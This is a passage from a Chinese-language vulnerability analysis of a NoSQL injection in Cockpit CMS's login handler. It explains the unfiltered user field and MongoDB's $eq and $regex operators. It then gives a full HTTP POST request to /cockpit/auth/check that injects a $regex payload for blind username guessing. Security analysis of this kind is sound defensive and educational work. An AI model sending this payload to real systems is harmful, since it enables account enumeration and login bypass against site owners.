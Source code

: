 **在`modules/Cockpit/module/auth.php`文件的第33行，首先，程序会查找用户是否存在用户是否存在，只有在用户存在的情况下，才会执行第35行if条件句中的`password_verify()`逻辑（`&&`运算符是短路求值，或者说是惰性求值）。所以如果返回的结果是password_verify() expects parameter 1 to be string，则说明，`$user = admin`在数据库中是存在的，`$app->storage->findOne()`成功返回了查询结果。**

*而上述漏洞的关键点在于，$filter['user']从$data['user']获取到之后，在被传入$app->storage->findOne进行数据库查询之前，完全没有经过过滤。因此，我们可以通过MongoDB操作符来进行NoSQL 注入。*(就是刚才删除的那一部分)

### $eq

`$eq`表示equal。是MongoDB中的比较操作符。

语法：

```json
{
    <field>: { $eq: <value> }
}
```

### $regex

`$regex`是MongoDB的正则表达式操作符，用来设置匹配字符串的正则表达式。`$regex`操作符是在MongoDB盲注中最经常被使用的，我们可以借助它来一个一个字符地爆破数据库。

语法：

```json
{
    <field>: { $regex: /pattern/, $options: '<options>' } 
}
{
    <field>: { $regex: 'pattern', $options: '<options>' }
}
{
    <field>: { $regex: /pattern/<options>}
}
```

其中`<options>`是模式修正符，在MongoDB中包含`i`，`m`，`x`和`s`四个选项。

我们可以用`$regex`进行盲注，来猜测用户名，比如：

```
POST /cockpit/auth/check HTTP/1.1
Host: 
User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:68.0) Gecko/20100101 Firefox/68.0
Accept: */*
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate
X-Requested-With: XMLHttpRequest
Content-Type: application/json; charset=UTF-8
Content-Length: 169
Connection: close

{
    "auth":{
        "user":{
            "$regex": "a.*"
        },
        "password":[
            0
        ]
    },
    "csfr":"eyJ0eXAiOiJKV1QiLCJhbGciOiJIUzI1NiJ9.eyJjc2ZyIjoibG9naW4ifQ.dlnu8XjKIvB6mGfBlOgjtnixirAIsnzf5QTAEP1mJJc"
}
```
